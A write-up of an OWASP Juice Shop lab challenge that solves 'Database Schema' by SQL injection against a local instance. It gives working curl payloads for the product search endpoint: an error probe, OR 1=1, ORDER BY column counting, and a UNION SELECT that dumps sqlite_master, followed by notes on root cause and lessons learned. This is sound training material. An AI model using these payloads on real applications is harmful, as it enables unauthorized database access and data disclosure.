




# Database Schema

## Challenge Information

* **Category:** Injection
* **Challenge:** Database Schema
* **Difficulty:** ⭐⭐⭐
* **Target:** `http://127.0.0.1:42000/rest/products/search`
* **Vulnerability:** SQL Injection
* **Database:** SQLite
* **Technique:** UNION-based SQL Injection

---

## 1. Reconnaissance / Discovery

The challenge clues indicated that the required information could be obtained from an endpoint that provides an unnecessary filtering function.

The product search endpoint was identified as:

```text
http://127.0.0.1:42000/rest/products/search
```

The corresponding application source code was then inspected:

```bash
grep -Rni -C 8 -E "schema|filter|filtering|UNION|unionSqlInjection|dbSchema" \
  /var/lib/juice-shop/routes \
  /var/lib/juice-shop/build/routes 2>/dev/null | head -200
```

The search route was found in:

```text
/var/lib/juice-shop/routes/search.ts
```

The relevant query constructs SQL directly from the `q` parameter:

```text
SELECT * FROM Products
WHERE ((name LIKE '%${criteria}%'
OR description LIKE '%${criteria}%')
AND deletedAt IS NULL)
ORDER BY name
```

The `criteria` value originates from:

```text
req.query.q
```

This showed that user-controlled input was being inserted directly into the SQL statement.

---

## 2. Confirming SQL Injection

A malformed search value was supplied to determine whether the input affected the SQL query:

```bash
curl -sG 'http://127.0.0.1:42000/rest/products/search' \
  --data-urlencode "q=apple%'"
```

The application returned an SQLite error:

```text
Error: SQLITE_ERROR: no such column: apple
```

This confirmed that the search parameter was reaching the database query.

A boolean-based injection was then tested:

```bash
curl -sG 'http://127.0.0.1:42000/rest/products/search' \
  --data-urlencode "q=%' OR 1=1))-- "
```

The response returned the complete product result set, including products normally excluded by the `deletedAt IS NULL` condition.



---

## 3. Identifying the Database and Schema Storage

The database error identified the backend as **SQLite**.

SQLite stores database object definitions in the `sqlite_master` system table. The schema definitions are stored in its `sql` column.

The application source confirmed that the challenge itself queries this table:

```text
SELECT sql FROM sqlite_master
```

The relevant database objects were therefore:

```text
sqlite_master
    └── sql
```

This established the exact source from which the challenge expected the database schema to be retrieved.

---

## 4. Determining the Column Count

A UNION-based SQL injection requires the injected `SELECT` statement to return the same number of columns as the original query.

The number of columns was determined using `ORDER BY`.

First, column 9 was tested:

```bash
curl -sG 'http://127.0.0.1:42000/rest/products/search' \
  --data-urlencode "q=%' OR 1=1)) ORDER BY 9-- "
```

The query succeeded.

Column 10 was then tested:

```bash
curl -sG 'http://127.0.0.1:42000/rest/products/search' \
  --data-urlencode "q=%' OR 1=1)) ORDER BY 10-- "
```

The application returned:

```text
Error: SQLITE_ERROR: 1st ORDER BY term out of range - should be between 1 and 9
```

Therefore, the original query contains **9 columns**.



---

## 5. Confirming UNION SELECT Compatibility

With the column count established, a nine-column UNION query was tested:

```bash
curl -sG 'http://127.0.0.1:42000/rest/products/search' \
  --data-urlencode "q=%' OR 1=1)) UNION SELECT 1,2,3,4,5,6,7,8,9-- "
```

The injected values appeared in the application's product response.

This established the output mapping:

| Position | Product field |
| -------: | ------------- |
|        1 | `id`          |
|        2 | `name`        |
|        3 | `description` |
|        4 | `price`       |
|        5 | `deluxePrice` |
|        6 | `image`       |
|        7 | `createdAt`   |
|        8 | `updatedAt`   |
|        9 | `deletedAt`   |

The third position was particularly useful because it maps to the `description` field, which can display text returned from the database.

---

## 6. Extracting the Database Schema

The required schema information was stored in:

```text
sqlite_master.sql
```

The `sql` column was therefore placed into the third position of the UNION query:

```bash
curl -sG 'http://127.0.0.1:42000/rest/products/search' \
  --data-urlencode "q=%' OR 1=1)) UNION SELECT 1,2,sql,4,5,6,7,8,9 FROM sqlite_master-- "
```

The response contained SQLite schema definitions, including `CREATE TABLE` and other database object definitions.

This successfully exposed the contents of the database schema through the vulnerable product-search endpoint.



---

## 7. Challenge Validation

The Juice Shop challenge validation checks the SQL definitions stored in `sqlite_master`.

Once the schema definitions were returned through the vulnerable endpoint, the challenge was automatically marked as solved.



---

## 8. Attack Surface

The vulnerable attack surface was:

```text
GET /rest/products/search?q=<SQL injection payload>
```

### Key findings

| Component             | Finding                         |
| --------------------- | ------------------------------- |
| Endpoint              | `/rest/products/search`         |
| Parameter             | `q`                             |
| Database              | SQLite                          |
| System table          | `sqlite_master`                 |
| Schema column         | `sql`                           |
| Original column count | 9                               |
| Injection type        | UNION-based SQL Injection       |
| Vulnerable behavior   | Direct SQL string concatenation |

---

## 9. Security Impact

The vulnerable search endpoint allowed an attacker to modify the underlying SQL query and retrieve information outside the intended product-search functionality.

In this challenge, the vulnerability was used to disclose database schema definitions.

Schema disclosure can provide valuable information about an application's internal database structure, including:

* Table definitions
* Column definitions
* Indexes
* Database object structure
* Application-specific database design

In a real application, the same underlying SQL injection vulnerability could potentially allow disclosure of sensitive database records, depending on the database permissions and the application's query context.

---

## 10. Root Cause

The root cause is the direct concatenation of user-controlled input into the SQL statement:

```text
LIKE '%${criteria}%'
```

Instead of treating `criteria` strictly as data, the application allows the supplied value to become part of the SQL syntax.

The absence of parameterized queries allows an attacker to terminate the intended expression and introduce additional SQL operations such as:

```text
OR
UNION SELECT
```

---

## 11. Lessons Learned

This challenge demonstrated a structured approach to UNION-based SQL injection:

1. Identify an endpoint that accepts user-controlled filtering input.
2. Inspect the application source to understand how the parameter is used.
3. Confirm that the parameter reaches the SQL query.
4. Identify the database technology.
5. Determine the number of columns returned by the original query.
6. Confirm that a UNION query can be aligned with those columns.
7. Identify database-specific system tables.
8. Determine which column contains the required information.
9. Place that information into a visible response field.
10. Verify the challenge result.

The important takeaway is that SQL injection testing is more effective when approached methodically: understand the original query first, then determine its structure before constructing the final UNION query.

---

## 12. Conclusion

The Database Schema challenge was solved by exploiting SQL injection in the Juice Shop product-search endpoint.

The investigation identified SQLite as the database engine and `sqlite_master.sql` as the source of the database schema definitions. The original query was determined to contain nine columns, allowing a compatible UNION SELECT statement to be constructed.

The final payload returned the SQLite schema through the application's normal product-search response, causing the challenge to be successfully validated.

This demonstrates how improper SQL query construction can transform a simple search function into a database metadata disclosure vulnerability.
